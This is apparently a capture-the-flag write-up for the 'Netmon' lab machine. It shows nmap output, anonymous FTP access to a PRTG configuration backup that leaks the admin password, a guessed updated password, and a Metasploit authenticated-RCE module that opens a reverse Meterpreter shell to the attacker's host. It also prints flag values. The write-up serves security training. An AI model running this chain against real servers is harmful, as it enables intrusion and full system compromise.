## Netmon

### Lab Details 

- Difficulty: Easy
- Type: Web App, PRTG Network Monitor, Priv Esc, Windows

#### Tasks
Q1: What is the name of the application running on port 80? Given the three words in the logo.
- run nmap `nmap -sT -T4 -vv -A -p- -Pn -oA Netmon 10.10.10.152`
```
<snip>
80/tcp    open     http         syn-ack     Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
|_http-favicon: Unknown favicon MD5: 36B3EF286FA4BEFBB797A0966B456479
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-trane-info: Problem with XML parsing of /evox/about
<snip>
```

Q2: What service is running on TCP port 21?
- output from nmap scan
```
1/tcp    open     ftp          syn-ack     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_11-10-23  10:20AM       <DIR>          Windows
```

Q3: Submit user.txt flag
- ftp on target allows Anonymous login 
- login to ftp and look for interesting files 
- config files are located at C:\ProgramData\Paessler\PRTG Network Monitor
- `PRTG Configuration.old.bak` looks to a backup file, we can check the content for sensitive info
```
ftp> cd "ProgramData\Paessler\PRTG Network Monitor"
250 CWD command successful.
ftp> ls
229 Entering Extended Passive Mode (|||51023|)
150 Opening ASCII mode data connection.
05-31-25  06:10AM       <DIR>          Configuration Auto-Backups
05-31-25  05:28AM       <DIR>          Log Database
02-03-19  12:18AM       <DIR>          Logs (Debug)
02-03-19  12:18AM       <DIR>          Logs (Sensors)
02-03-19  12:18AM       <DIR>          Logs (System)
05-31-25  05:28AM       <DIR>          Logs (Web Server)
05-31-25  05:33AM       <DIR>          Monitoring Database
02-25-19  10:54PM              1189697 PRTG Configuration.dat
02-25-19  10:54PM              1189697 PRTG Configuration.old
07-14-18  03:13AM              1153755 PRTG Configuration.old.bak
05-31-25  06:10AM              1673581 PRTG Graph Data Cache.dat
02-25-19  11:00PM       <DIR>          Report PDFs
02-03-19  12:18AM       <DIR>          System Information Database
02-03-19  12:40AM       <DIR>          Ticket Database
02-03-19  12:18AM       <DIR>          ToDo Database
ftp> mget "PRTG Configuration.old.bak"
```
- PrTg@dmin2018 is the password in the file

Q4:What is the prtgadmin user's password on the website now?
- tried search for current password in the same dirctory however no luck
- tried with different year in the password and worked
- password is PrTg@dmin2019

Q5: What version of PRTG is installed?
- version is displayed at the bottom of the page
![[PRTG_version.png]]

Q6: Which user is this software running as by default? Don't include anything before a \.
- check for RCE for PRTG using msfconsole, search for prtg
```
msf6 exploit(windows/http/prtg_authenticated_rce) > search prtg

Matching Modules
================

   #  Name                                                        Disclosure Date  Rank       Check  Description
   -  ----                                                        ---------------  ----       -----  -----------
<snip>
   3  exploit/windows/http/prtg_authenticated_rce                 2018-06-25       excellent  Yes    PRTG Network Monitor Authenticated RCE

msf6 >  use exploit/windows/http/prtg_authenticated_rce
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```
-  use prtg_authenticated_rce module
```
msf6 exploit(windows/http/prtg_authenticated_rce) > set ADMIN_USERNAME prtgadmin
ADMIN_USERNAME => prtgadmin
msf6 exploit(windows/http/prtg_authenticated_rce) > set ADMIN_PASSWORD PrTg@dmin2019
ADMIN_PASSWORD => PrTg@dmin2019
msf6 exploit(windows/http/prtg_authenticated_rce) > run
[*] Started reverse TCP handler on 10.10.14.10:4444 
[+] Successfully logged in with provided credentials
[+] Created malicious notification (objid=2018)
[+] Triggered malicious notification
[+] Deleted malicious notification
[*] Waiting for payload execution.. (30 sec. max)
[*] Sending stage (177734 bytes) to 10.10.10.152
[*] Meterpreter session 1 opened (10.10.14.10:4444 -> 10.10.10.152:49834) at 2025-05-31 08:09:55 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
Q7: Submit root.txt flag
- get shell from meterpreter and fetch flag.txt
```
meterpreter > shell
Process 356 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
55d394bbe11543e7e737c3116c211add
```

#### Resources

#### Lesson Learned
